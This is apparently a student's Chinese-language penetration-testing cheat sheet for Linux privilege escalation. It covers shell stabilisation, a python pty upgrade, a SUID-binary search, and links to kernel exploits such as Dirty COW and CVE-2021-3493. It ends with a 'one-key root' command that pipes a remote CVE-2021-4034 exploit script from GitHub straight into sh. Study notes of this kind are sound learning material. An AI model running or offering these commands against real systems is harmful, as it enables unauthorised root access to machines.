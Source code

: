WEEK-4

Kali切换为bash:	`sudo chsh -s /bin/bash`

```sh
1.	Ctrl+Z
2.	stty raw -echo
3.	fg
4.	export SHELL=/bin/bash
5.	export TERM=screen
6.	stty rows 38 columns 126
7.	reset
```

---

### 升级python-pty shell

`python3 -c "import pty;pty.spawn('/bin/bash')"`

---

### GTFOBins 🚩

强烈推荐!!!

[GTFOBins](https://GTFOBins.github.io)

---

### suid提权

`find / -perm 4000 [-user root] 2>/dev/null`

---

### 内核漏洞

`uname -a`

----

2.6.22 < 3.9	[脏牛](https://github.com/FireFart/dirtycow)

---

较新版本:	18.04.1 ≤ Ubuntu < 20.04	[CVE-2021-3493.c](https://github.com/briskets/CVE-2021-3493)

----

[CVE-2021-4034](( curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh ; cat - ) | sh)

一键root:	`( curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh ; cat - ) | sh`

----

